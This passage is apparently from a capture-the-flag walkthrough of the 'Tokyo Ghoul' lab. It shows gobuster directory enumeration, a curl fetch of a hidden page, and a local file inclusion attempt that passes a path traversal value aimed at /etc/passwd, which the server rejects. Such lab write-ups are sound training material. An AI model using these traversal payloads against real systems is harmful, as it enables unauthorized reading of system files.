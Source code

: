 "Scan me?". Ok. I ran `gobuster` on this directory to find the subdirectories:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Tokyo_Ghoul/files]
└─$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/d1r3c70ry_center/                             
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.65.121/d1r3c70ry_center/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/30 12:06:09 Starting gobuster in directory enumeration mode
===============================================================
/claim                (Status: 301) [Size: 329] [--> http://10.10.65.121/d1r3c70ry_center/claim/]
~~~

We found `/claim`. Let's see the content:

~~~html
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Tokyo_Ghoul/files]
└─$ curl -s "http://$IP/d1r3c70ry_center/claim/"            
<html>
    <head>
	<link href="https://fonts.googleapis.com/css?family=IBM+Plex+Sans" rel="stylesheet"> 
	<link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
	<div class="menu">
	    <a href="index.php">Main Page</a>
	    <a href="index.php?view=flower.gif">NO</a>
	    <a href="index.php?view=flower.gif">YES</a>
	</div>
 <p><b>Welcome Kankei-Ken</b><br><br>So you are here , you make the desision , you really want the power ? 
 Will you accept me? 
 Will accept your self as a ghoul?</br></p>
    <img src='https://i.imgur.com/9joyFGm.gif'>    </body>
</html>
~~~

#### LFI

Here we have three buttons and two of them run a function in `index.php` with `view` as the parameter. We might be able to use LFI. I tried simple LFI but I got and error:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Tokyo_Ghoul/files]
└─$ curl -s "http://$IP/d1r3c70ry_center/claim/index.php?view=../../../../etc/passwd" | html2text 

Main_Page NO YES
no no no silly don't do that
~~~
